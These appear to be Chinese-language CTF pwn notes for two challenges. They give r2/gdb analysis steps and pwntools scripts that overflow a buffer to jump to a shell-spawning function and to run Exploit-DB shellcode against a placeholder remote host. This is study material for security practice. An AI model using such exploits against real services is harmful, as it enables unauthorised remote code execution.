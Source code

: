 ### 章元 pwn 8

#### 先看看有無奇怪 function

- r2 ./[檔案]
- aa
- afl
- s 0x004006b6(奇怪的 function)
- vv
- s 0x4007c8(上一步 function 裡所用的類型)(發現是 sh 類型)
- s main
- gdb ./[檔案]
- b main
- r
- ni(走到 call 的位置)
- 可以用 python 先記錄下來
- vim ./[py 檔案]

```python=
from pwn import *

r = remote('[ip位置],[port]')

r.recvuntil('\n')
r.sendline(b'a'*0x38 + p64(0x004006b6))

r.interactive()
```

- python3 exploit_luck.py

---

### 章元 pwn 9

- r2 ./[檔案]
- aa
- afl
- s main
- vv
- gdb ./[檔案]
- b main
- r
- vmmap
- vim ./[檔案]

```python=
from pwn import *

r = remote('[ip位置],[port]')

#Exploit Database:https://www.exploit-db.com/shellcodes
shellcode = '[在Exploit Database Shellcodes裡面找到可用字串]'

r.recvuntil(':')
r.sendline(shellcode)

r.recvuntil(':')
r.sendline(b'a'*0x28 + p64(0x601080))

r.interactive()
```
